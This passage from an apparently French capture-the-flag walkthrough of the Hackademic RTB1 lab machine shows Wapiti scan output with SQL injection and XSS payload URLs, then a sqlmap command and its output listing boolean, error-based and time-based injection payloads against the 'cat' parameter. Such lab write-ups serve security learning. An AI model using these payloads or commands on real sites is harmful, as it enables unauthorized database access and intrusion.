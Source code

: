 ```console
  Evil url: http://192.168.1.62/Hackademic_RTB1/?cat=http%3A%2F%2Fwww.google.fr%2F%3F

[+] Lancement du module sql
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?%BF%27%22%28
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?p=%BF%27%22%28
Injection MySQL dans http://192.168.1.62/Hackademic_RTB1/ via une injection dans le paramètre cat
  Evil url: http://192.168.1.62/Hackademic_RTB1/?cat=%BF%27%22%28

[+] Lancement du module xss
Faille XSS dans http://192.168.1.62/Hackademic_RTB1/ via une injection dans le paramètre cat
  Evil url: http://192.168.1.62/Hackademic_RTB1/?cat=%3Cscript%3EString.fromCharCode%280%2Cwjevynv26p%2C1%29%3C%2Fscript%3E

[+] Lancement du module blindsql
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?sleep%287%29%231
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?p=sleep%287%29%231

[+] Lancement du module permanentxss

Rapport
------
Un rapport a été généré dans le fichier /tmp/.wapiti/generated_report
Ouvrez /tmp/.wapiti/generated_report/index.html dans un navigateur pour voir ce rapport.
```

Un bon nombre d'erreurs 500 a été retourné. Une faille XSS a été trouvée, mais ce qui nous intéresse vraiment, c'est la faille SQL dans le paramètre `cat`.  

On enchaîne sur [SQLmap](http://sqlmap.org/) (je coupe l'output qui est trop long) :  

```console
$ python sqlmap.py -u "http://192.168.1.62/Hackademic_RTB1/?cat=1" --dbms=mysql -p cat

sqlmap identified the following injection points with a total of 51 HTTP(s) requests:
---
Place: GET
Parameter: cat
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 6380=6380

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: cat=1 AND (SELECT 6274 FROM(SELECT COUNT(*),CONCAT(0x7166706571,(SELECT (CASE WHEN (6274=6274) THEN 1 ELSE 0 END)),0x7163637371,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind
    Payload: cat=1 AND SLEEP(5)
---
[15:03:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 13 (Goddard)
web application technology: PHP 5.3.3, Apache 2.2.15
```
